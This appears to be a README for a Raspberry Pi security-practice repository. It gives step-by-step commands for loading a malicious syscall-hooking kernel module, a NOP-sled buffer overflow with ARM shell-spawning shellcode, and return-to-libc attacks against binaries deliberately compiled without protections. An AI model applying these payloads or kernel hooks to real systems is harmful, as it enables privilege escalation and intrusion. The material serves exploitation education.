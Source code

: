 # HackRPi
- [System Call Hooking](https://github.com/korkeep/HackRPi#system-call-hooking-)
- [Buffer Overflow](https://github.com/korkeep/HackRPi#buffer-overflow-)
- [Return-To-Libc](https://github.com/korkeep/HackRPi#return-to-libc-)
- [Return-Oriented Programming](https://github.com/korkeep/HackRPi#return-oriented-programming-)

## System Call Hooking 🐱‍💻
### Insert kernel files to RPi
- **Step 1**: Mount SD card  
```
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/fs
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 2**: Copy kernel image  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/zImage /mnt/raspi/kernel7.img
```
- **Step 3**: Copy modules  
```
kss@ubuntu:~/HackRPi$ sudo cp -r ./linux/4.4.50-v7+/ /mnt/fs/lib/modules/
```
- **Step 4**: Copy device tree blob  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb /mnt/raspi/
```
- **Step 5**: Copy device tree blob overlays  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb* /mnt/raspi/overlays
kss@ubuntu:~/HackRPi$ sudo cp ./linux/README /mnt/raspi/overlays
```
- **Step 6**: Unmount SD card  
```
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
### Kernel modification attack
- **Step 1**: Check malicious module  
![image](https://user-images.githubusercontent.com/20378368/107459865-6d6e1a80-6b9a-11eb-9713-7319c7e2b622.png)  
- **Step 2**: Check SD card  
![image](https://user-images.githubusercontent.com/20378368/107325262-d303cd80-6aec-11eb-85fe-6e6c9f196352.png)  
```
kss@ubuntu:~/HackRPi/Hook$ lsblk
```
- **Step 3**: Mount SD card  
```
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 4**: Copy malicious module  
```
kss@ubuntu:~/HackRPi/Hook$ cd ..
kss@ubuntu:~/HackRPi$ sudo cp -r ./Hook /mnt/fs/home/pi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
- **Step 5**: Insert malicious module to RPi  
```
pi@raspberrypi:~/Hook$ sudo insmod hooker.ko
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107734985-fecbc100-6d41-11eb-8e3c-b4e42875d89e.PNG)  

## Buffer Overflow 🐱‍💻
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/BOF $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
pi@korkeep:~/BOF $ gcc -fno-stack-protector -z execstack BOF.c -o BOF
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/BOF $ gdb -q BOF
(gdb) start
```
- **Step 4**: Disassemble main  
![image](https://user-images.githubusercontent.com/20378368/107657827-e1a6dc00-6cc8-11eb-9891-0387c6b8c34b.png)  
```
(gdb) disassemble main
```
- **Step 5**: Set a breakpoint to hack  
```
// Breakpoint target:
// 0x00010530 <+40>:    mov     r3, #0
(gdb) b *0x00010530
```
- **Step 6**: Analyze address state  
![image](https://user-images.githubusercontent.com/20378368/107655183-a86d6c80-6cc6-11eb-9a09-7223b26fdd69.png)  
```
(gdb) x/100x $sp-200
```
- **Step 7**: Buffer overflow using NOP sled  
```
// Target address: 0x7efff570
(gdb) run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x70\xf5\xff\x7e"')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107658056-1dda3c80-6cc9-11eb-9173-69a569d9439f.png)  

## Return-To-Libc 🐱‍💻
### Original RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
![image](https://user-images.githubusercontent.com/20378368/107732766-87476300-6d3c-11eb-88cf-ee929dbae4ee.png)  
```
// To practice RTL attack, compile with all these options
// However, Raspberry Pi3 does not support some options
pi@korkeep:~/RTL $ gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -no-pie -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
![image](https://user-images.githubusercontent.com/20378368/107732076-c70d4b00-6d3a-11eb-9929-fd4c3664b426.png)  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Print system() address  
![image](https://user-images.githubusercontent.com/20378368/107729508-7bf03980-6d34-11eb-91f3-331a02ad046f.png)  
```
(gdb) print system
```
- **Step 5**: Find /bin/sh address  
![image](https://user-images.githubusercontent.com/20378368/107729545-90343680-6d34-11eb-8a79-fc45acf8ab5c.png)  
```
(gdb) find &system, +99999999, "/bin/sh"
```
- **Step 6**: RTL attack using system(), /bin/sh address  
```
// Target address: 0x76e9ffac, 0x76f83c68
(gdb) run $(python -c 'print("A"*16+"\xac\xff\xe9\x76"+"A"*4+"\x68\x3c\xf8\x76")')
```
### Alternative RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
// Instead, HackRPi provides alternative source to practice RTL
// system("/bin/sh") function is manually added at RTL.c
pi@korkeep:~/RTL $ gcc -fno-stack-protector -z execstack -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Disassemble rtl()  
![image](https://user-images.githubusercontent.com/20378368/107731737-0ab38500-6d3a-11eb-9b3e-07e1e3181b0b.png)  
```
(gdb) disassemble rtl
```
- **Step 5**: Find system(), /bin/sh address  
![image](https://user-images.githubusercontent.com/20378368/107734782-8ebd3b00-6d41-11eb-83c3-b4d42e5740ae.png)  
```
(gdb) x/x 0x10494
(gdb) x/s 0x10558
```
- **Step 6**: RTL attack using ldr address  
```
//Target: 0x00010488
(gdb) run $(python -c 'print("A"*16+"\x88\x04\x01")')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107734200-3174ba00-6d40-11eb-8306-32b063492b3f.png)  

## Return-Oriented Programming 🐱‍💻